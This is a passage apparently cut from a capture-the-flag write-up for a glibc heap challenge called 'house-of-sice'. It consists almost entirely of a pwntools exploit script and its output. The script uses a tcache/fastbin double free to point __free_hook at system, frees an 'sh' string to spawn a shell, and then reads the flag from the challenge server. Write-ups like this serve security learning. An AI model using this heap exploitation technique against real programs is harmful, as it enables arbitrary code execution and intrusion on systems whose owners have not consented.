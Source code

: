 ```python
    log.success(f"libc @ 0x{libc.address:08x}")

with log.progress("Creating 8 chunks") as p:
    p.status(f"0/8")
    for i in range(TCACHE_MAX_BINS + 1):
        delightful(PLACEHOLDER)
        p.status(f"{i + 1}/8")

with log.progress("Filling up Tcache") as p:
    p.status(f"0/7")
    for i in range(TCACHE_MAX_BINS):
        sell(i)
        p.status(f"{i + 1}/7")

with log.progress("Overlapping Tcache chunk with Fastbin chunk") as p:
    p.status("Freeing chunk into fastbin (chunk A)")
    sell(FASTBIN_INDEX)
    p.status("Removing chunk from Tcache")
    delightful(PLACEHOLDER)
    p.status("Double free chunk A to also be in Tcache list")
    sell(FASTBIN_INDEX)

with log.progress("Linking `__free_hook` into Tcache list"):
    devious(libc.sym.__free_hook)  # calloc bypasses allocation from Tcache

with log.progress("Writing `sh` string onto heap"):
    sh_string = delightful(u32("sh\x00\x00"))

with log.progress("Writing `system` into `__free_hook`"):
    delightful(libc.sym.system)

with log.progress("Spawning shell"):
    sell(sh_string)

io.interactive()
```

Running the above script yields us the following.

```
❯ python xpl.py REMOTE
[+] Opening connection to house-of-sice.hsc.tf on port 1337: Done
[+] Resolving libc base address: Done
[+] libc @ 0x7fc75feb6000
[+] Creating 8 chunks: Done
[+] Filling up Tcache: Done
[+] Overlapping Tcache chunk with Fastbin chunk: Done
[+] Linking `__free_hook` into Tcache list: Done
[+] Writing `sh` string onto heap: Done
[+] Writing `system` into `__free_hook`: Done
[+] Spawning shell: Done
[*] Switching to interactive mode
$ cat flag
flag{tfw_the_double_free_check_still_sucks}
```

Flag: `flag{tfw_the_double_free_check_still_sucks}`
